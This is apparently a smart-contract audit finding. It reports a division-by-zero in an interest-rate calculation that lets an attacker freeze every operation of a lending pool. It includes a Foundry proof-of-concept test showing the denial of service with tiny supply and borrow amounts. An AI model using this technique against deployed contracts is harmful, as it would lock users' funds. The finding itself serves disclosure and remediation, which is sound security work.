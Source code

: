 ```solidity
        (uint256 borrowRate, uint256 reserveFactor) =
            $.interestRateModule.calculateInterestRate(ilkIndex, totalDebt, totalEthSupply);
```

In the `calculateInterestRate` function, if the `distributionFactor` is non-zero and the ETH supply is relatively small, a division by zero can occur:

```solidity
    function calculateInterestRate(
        uint256 ilkIndex,
        uint256 totalIlkDebt,
        uint256 totalEthSupply
    )
        external
        view
        returns (uint256, uint256)
    {
        ---SNIP---
        if (distributionFactor == 0) {
            return (ilkData.minimumKinkRate, ilkData.reserveFactor.scaleUpToRay(4));
        }
        // [RAD] / [WAD] = [RAY]
        uint256 utilizationRate =
>>          totalEthSupply == 0 ? 0 : totalIlkDebt / (totalEthSupply.wadMulDown(distributionFactor.scaleUpToWad(4)));
```

This issue results in all pool operations being blocked, as `accrueInterest` is called in all of them. The only way to return the pool to a normal state is to swap the interest rate module to one with a zero `distributionFactor`.

Coded POC for `IonPool.t.sol` where the attacker blocks the pool in two separate transactions. (lender's `supply` call was removed from `setUp`):

```solidity
    function test_DoS() public {
        uint256 collateralDepositAmount = 10e18;
        uint256 normalizedBorrowAmount = 1;

        vm.startPrank(lender1);
        underlying.approve(address(ionPool), type(uint256).max);
        ionPool.supply(lender1, 2, new bytes32[](0));
        vm.stopPrank();

        vm.startPrank(borrower1);
        ionPool.depositCollateral(0, borrower1, borrower1, collateralDepositAmount, new bytes32[](0));
        ionPool.borrow(0, borrower1, borrower1, normalizedBorrowAmount, new bytes32[](0));

        vm.warp(block.timestamp + 1);
        vm.expectRevert();
        ionPool.accrueInterest();
    }
```
